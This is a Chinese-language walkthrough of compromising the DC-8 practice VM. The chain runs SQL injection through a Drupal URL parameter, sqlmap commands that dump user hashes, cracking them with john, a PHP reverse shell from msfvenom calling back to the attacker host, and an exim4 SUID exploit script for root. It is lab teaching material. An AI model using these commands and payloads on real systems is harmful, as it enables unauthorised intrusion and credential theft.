## DC-8 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| DC-8          | `192.168.1.108` |

### 扫描端口和版本信息

`nmap -A 192.168.1.108`



### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Drupal 7** CMS



经过 OSINT 查找得知该版本有许多漏洞，但是利用都不成功。

此外观察到导航栏选项链接与页面中的链接不一致，并且带有参数 `?nid=2` ，看到带查询参数，第一反应就是存在 SQL注入，经过简单验证可证明存在注入漏洞



之后用 *sqlmap* 工具进行 SQL 注入

```sql
sqlmap -r post.txt --dbs --batch
sqlmap -r post.txt -D d7db --tables --batch
sqlmap -r post.txt -D d7db -T users --columns --batch
sqlmap -r post.txt -D d7db -T users -C "name,pass" --dump --batch
```



使用 *john* 破解 hash 密码



得到一个账户和密码：`john:turtle`。使用该账户登录系统，探索后发现在 *webform* 的 *form settings* 选项中可以插入 PHP 代码

### Getshell



切换到有填写表单的页面，随意输入一些信息后提交即可 getshell

 

在 */home/dc8user* 目录下有个隐藏文件 `.google_authenticator`。因此该账户使用 ssh 登录时会有 2FA 认证



> 查看下系统中安装的 Google 2FA ：`dpkg -l | grep google*`
>
> ```
> ii  libpam-google-authenticator   20160607-2+b1                  amd64        Two-step verification
> ```
>
> 在网上找到绕过 2FA 的几个[方法](https://shahmeeramir.com/4-methods-to-bypass-two-factor-authentication-2b0075d9eb5f)

接下来我们查找具有 SUID 权限的工具



其中 *exim4* 比较可疑



搜索一下该软件漏洞



### 提权

将该脚本传到虚拟机上后执行

> 更改下换行符：`sed -i "s/\r//" 46996.sh`



### 总结

1. 插入 PHP 代码时，使用 *msfvenom* 生成 **php** 反向 shell 代码：

   `msfvenom -p php/reverse_php LHOST=192.168.1.112 LPORT=8888 -f raw -o recvshell.php`

   同时 Kali 端运行 msf

   ```
   use exploit/multi/handler
   set payload php/reverse_php
   ```

   > `ctrl+z` 将会话放置到后台
   
   
   
2. 虽然知道 ssh 登录时会进行 2FA 认证，认证密码是 6 个数字，可以采取暴力破解。但是在输入认证密码之后仍然需要输入密码，因此想要绕过 2FA 难度较大
